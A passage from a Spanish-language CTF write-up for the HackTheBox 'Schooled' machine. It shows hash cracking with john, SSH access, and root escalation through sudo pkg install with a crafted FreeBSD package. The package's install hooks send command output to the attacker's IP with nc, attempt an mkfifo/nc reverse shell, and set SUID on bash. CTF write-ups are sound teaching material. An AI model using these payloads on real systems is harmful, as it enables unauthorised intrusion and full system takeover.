❭ john --wordlist=/usr/share/wordlists/rockyou.txt jamie_hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (?)
1g 0:00:06:00 DONE (2021-04-12 25:25) 0.002771g/s 38.50p/s 38.50c/s 38.50C/s 010188..!QAZ2wsx
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Al parecer el resultado es `!QAZ2wsx`, probemos mediante **SSH** con el usuario **jamie**:

```bash
❭ ssh jamie@10.10.10.234
Password for jamie@Schooled:
Last login: Tue Mar 16 14:44:53 2021 from 10.10.14.5
FreeBSD 13.0-BETA3 (GENERIC) #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021

Welcome to FreeBSD!
...
jamie@Schooled:~ $ id
uid=1001(jamie) gid=1001(jamie) groups=1001(jamie),0(wheel)
jamie@Schooled:~ $ 
```

Perfectísimo, tamos dentro de la máquina con una linda Shell :)

...

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Viendo los permisos que tiene `jamie` en el sistema, tenemos:

```bash
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

Opa, interesante, dos permisos, uno para actualizar paquetes (supongo) y otro para instalar paquetes de la ruta donde estemos. Y ambos los podemos ejecutar como cualquier usuario del sistema.

* [INFO **pkg** binary](https://www.freebsd.org/cgi/man.cgi?query=pkg&sektion=&n=1).

📦 ***<u>pkg</u> provides an interface for manipulating packages: registering, adding, removing and upgrading packages.***

Dando vueltas para ver como podríamos explotar esto, encontramos un post donde nos muestra un script que genera un paquete para posteriormente ser instalado:

* [Creating Custom Packages on **FreeBSD**](http://lastsummer.de/creating-custom-packages-on-freebsd/).

El post toma el script por partes, pero la parte que nos interesa en la inicial, ya que es donde podemos modificar el código que queremos que se ejecute mientras el paquete se esta instalando:

```bash
#!/bin/sh

STAGEDIR=/tmp/stage
rm -rf ${STAGEDIR}
mkdir -p ${STAGEDIR}

cat >> ${STAGEDIR}/+PRE_DEINSTALL <<EOF
# careful here, this may clobber your system
echo "Resetting root shell"
pw usermod -n root -s /bin/csh
EOF

cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
# careful here, this may clobber your system
echo "Registering root shell"
pw usermod -n root -s /bin/sh
EOF
```

Donde relativamente parece que resetea la Shell asignada al usuario **root**, peroooo, podríamos cambiar esos comandos por los nuestros, algo así:

```bash
#!/bin/sh

STAGEDIR=/tmp/stage
rm -rf ${STAGEDIR}
mkdir -p ${STAGEDIR}

cat >> ${STAGEDIR}/+PRE_DEINSTALL <<EOF
# careful here, this may clobber your system
echo "1 root shell"
whoami | nc 10.10.14.11 4434
EOF

cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
# careful here, this may clobber your system
echo "2 root shell"
id | nc 10.10.14.11 4434
EOF
```

Intentamos que nos envíe el output de `whoami` y de `id` a nuestro listener y ver que obtenemos.

Esta parte es genérica y estructural, entiendo que es necesaria para la creación del paquete, pero no necesitamos modificar nada:

```bash
cat >> ${STAGEDIR}/+MANIFEST <<EOF
name: mypackage
version: "1.0_5"
origin: sysutils/mypackage
comment: "automates stuff"
desc: "automates tasks which can also be undone later"
maintainer: john@doe.it
www: https://doe.it
prefix: /
EOF

echo "deps: {" >> ${STAGEDIR}/+MANIFEST
pkg query "  %n: { version: \"%v\", origin: %o }" portlint >> ${STAGEDIR}/+MANIFEST
pkg query "  %n: { version: \"%v\", origin: %o }" poudriere >> ${STAGEDIR}/+MANIFEST
echo "}" >> ${STAGEDIR}/+MANIFEST

mkdir -p ${STAGEDIR}/usr/local/etc
echo "# hello world" > ${STAGEDIR}/usr/local/etc/my.conf
echo "/usr/local/etc/my.conf" > ${STAGEDIR}/plist

pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -p ${STAGEDIR}/plist -o .
```

Ahora ya podemos ejecutar el script y validar si se nos genera el paquete:

```bash
jamie@Schooled:/tmp/aver $ ./aja.sh
jamie@Schooled:/tmp/aver $ ls
aja.sh mypackage-1.0_5.txz
```

Listo, se genera correctamente (: Instalémoslo:

```bash
jamie@Schooled:/tmp/aver $ sudo /usr/sbin/pkg install *.txz
Updating FreeBSD repository catalogue...
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
```

Pero acá se queda pensando y no hace nada, así que buscando encontramos que probablemente el tema sea que intenta actualizar el catálogo de repositorios (como dice ahí) y por eso se queda pegado. Pero en este manual tenemos el parámetro `--no-repo-update` el cual se encarga precisamente de suprimir la actualización automática que intenta hacer:

* [**pkg install** - Install packages from remote package repositories or local archives](https://man.dragonflybsd.org/?command=pkg-install&section=8).

Si volvemos a intentar pero ahora con el nuevo argumento:

```bash
jamie@Schooled:/tmp/aver $ sudo /usr/sbin/pkg install --no-repo-update *.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        mypackage: 1.0_5

Number of packages to be installed: 1

Proceed with this action? [y/N]: y
[1/1] Installing mypackage-1.0_5...
Extracting mypackage-1.0_5: 100%
2 root shell
jamie@Schooled:/tmp/aver $ 
```

Perfecto, se ejecuta, en nuestro listener recibimos:

```bash
❭ nc -lvp 4434
listening on [any] 4434 ...
connect to [10.10.14.11] from schooled.htb [10.10.10.234] 39175
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
```

Oko, tenemos ejecución de comandos, pero recibimos el id, por lo tanto el primer apartado parece que no se está ejecutando, agreguemos nuestra reverse Shell en la parte de **+POST_INSTALL** (segundo apartado):

```bash
...
EOF

cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
# careful here, this may clobber your system
echo "2 root shell"
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i | nc 10.10.14.11 4434 > /tmp/f
EOF

cat >> ${STAGEDIR}/+MANIFEST <<EOF
...
```

Pero al ejecutar la instalación del paquete obtenemos o errores o simplemente nada. 

Así que podemos probar a modificar la `/bin/bash` a **SUID**:

⛹️ **<u>SUID?</u>** ***... it’s a way in UNIX-like operating systems of <u>running a command as another user without providing credentials</u>.*** [pentestpartners - exploiting-suid-executables](https://www.pentestpartners.com/security-blog/exploiting-suid-executables/).

```bash
jamie@Schooled:/tmp/aver $ ls -la /bin/bash
lrwxr-xr-x  1 root  wheel  19 Apr  1 17:02 /bin/bash -> /usr/local/bin/bash
```

Vemos que `/bin/bash` tiene un link hacia `/usr/local/bin/bash`, o sea que cuando ejecutemos `/bin/bash`, esteremos ejecutando realmente `/usr/local/bin/bash`.

```bash
jamie@Schooled:/tmp/aver $ ls -la /usr/local/bin/bash
-rwxr-xr-x  1 root  wheel  941288 Feb 20 01:47 /usr/local/bin/bash
```

Entonces modificamos los permisos agregándole el **SUID** (`4`) al binario `/bin/bash`, que realmente se los estaría otorgando al binario `/usr/local/bin/bash` :)

```bash
...
EOF

cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
# careful here, this may clobber your system
echo "2 root shell"
chmod 4755 /bin/bash
EOF

cat >> ${STAGEDIR}/+MANIFEST <<EOF
...
```

Generamos paquete e instalamos:

```bash
jamie@Schooled:/tmp/aver $ ./aja.sh 
jamie@Schooled:/tmp/aver $ sudo /usr/sbin/pkg install --no-repo-update *.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        mypackage: 1.0_5

Number of packages to be installed: 1

Proceed with this action? [y/N]: y
[1/1] Installing mypackage-1.0_5...
Extracting mypackage-1.0_5: 100%
2 root shell
jamie@Schooled:/tmp/aver $ 
```

Ahora validamos los permisos de los binarios:

```bash
jamie@Schooled:/tmp/aver $ ls -la /bin/bash
lrwxr-xr-x  1 root  wheel  19 Apr  1 17:02 /bin/bash -> /usr/local/bin/bash
jamie@Schooled:/tmp/aver $ ls -la /usr/local/bin/bash
-rwsr-xr-x  1 root  wheel  941288 Feb 20 01:47 /usr/local/bin/bash
```

Perfecto, vemos el nuevo permiso asignado con una `s` en la ejecución. 

Ahora simplemente indicamos `/usr/local/bin/bash -p` para que ejecute el programa con los permisos **SUID** que tenga asignados el objeto. Como el dueño del binario es `root`, tomara el **SUID de ese usuario**, por lo tanto tendremos una Shell como él.

```bash
jamie@Schooled:/tmp/aver $ /usr/local/bin/bash -p
[jamie@Schooled /tmp/aver]# whoami
root
```

Y si (: tenemos una sesión como **root**, solo nos quedaría ver las flags:

![335flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335flags.png)

...

Linda máquina eh! Linda linda, me gusto mucho como le robamos la cookie al profesor y como nos aprovechamos del rol **manager** para conseguir **RCE**, muy lindo todo.

(Además que me permitió explorar a profundidad la creación de un exploit bastante **retador**)

Y bueno, como siempre y como nunca, muchísimas gracias y a seguir rompiendo todo ;)